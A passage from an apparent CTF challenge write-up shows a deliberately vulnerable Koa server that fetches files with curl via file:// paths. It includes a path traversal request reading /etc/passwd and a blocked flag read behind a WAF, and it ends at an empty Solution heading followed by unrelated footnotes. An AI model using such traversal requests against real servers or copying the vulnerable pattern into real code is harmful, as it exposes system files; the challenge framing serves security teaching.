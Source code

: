 ```javascript

app.use(async (ctx) => {
  const path = decodeURI(ctx.path.slice(1)) || "index.html";
  try {
    const proc = await execFile(
      "curl",
      [`file://${process.cwd()}/public/${path}`],
      { timeout: 1000 }
    );
    ctx.type = "text/html; charset=utf-8";
    ctx.body = proc.stdout;
  } catch (err) {
    ctx.body = err;
  }
});

app.listen(PORT);
```

It is obviously vulnerable for path traversal.

```shell
$ http --path-as-is "http://localhost:3000/../../../../etc/passwd"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 961
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Feb 2023 16:49:50 GMT
Keep-Alive: timeout=5

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... snip ...
```

However, the WAF disallows responses including a flag.

```shell
$ http --path-as-is "http://localhost:3000/../../../../flag.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 4
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Feb 2023 16:52:27 GMT
Keep-Alive: timeout=5

🤔
```

The goal in this challenge is bypassing the WAF.

### Solution


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell